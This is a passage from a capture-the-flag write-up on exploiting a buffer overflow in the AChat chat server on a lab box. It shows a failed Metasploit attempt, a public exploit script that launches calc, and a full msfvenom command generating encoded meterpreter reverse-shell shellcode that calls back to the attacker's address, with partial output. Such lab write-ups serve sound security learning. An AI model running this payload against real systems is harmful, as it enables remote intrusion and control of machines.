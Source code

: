     
    
    msf exploit(windows/misc/achat_bof) > run
    
    [-] Exploit failed: No encoders encoded the buffer successfully.
    [*] Exploit completed, but no session was created.
    

I tried with different payloads, and with Wireshark up on the Windows VM, and
no traffic ever reached the VM.

##### Exploit-DB Python Script

There’s a [python script](https://www.exploit-db.com/exploits/36025/) on
exploit-db for this exploit. In it’s default state, it will launch calc. We’ll
update the server address to the IP of the Windows VM, and give it a run:

    
    
    root@kali# python achat-exploit.py
    ---->{P00F}!
    

On Windows:

![](https://0xdfimages.gitlab.io/img/chatterbox-achat-calc.png)

So we know it works. We’ll also notice that AChat dies when the exploit is
run, which is going to make getting onto the actual box a real pain.

### Exploit Chatterbox

#### script + meterpreter - fail

The script comes with shellcode to pop `calc.exe` and an example `msfvenom`
command run to generate it. So it makes sense to use `msfvenon` to generate a
more useful payload. We’ll start with `meterpreter`:

    
    
    root@kali# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.157 LPORT=4433 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/unicode_mixed
    x86/unicode_mixed succeeded with size 808 (iteration=0)
    x86/unicode_mixed chosen with final size 808
    Payload size: 808 bytes
    Final size of python file: 3872 bytes
    buf =  ""
    buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
    buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
    ...
    
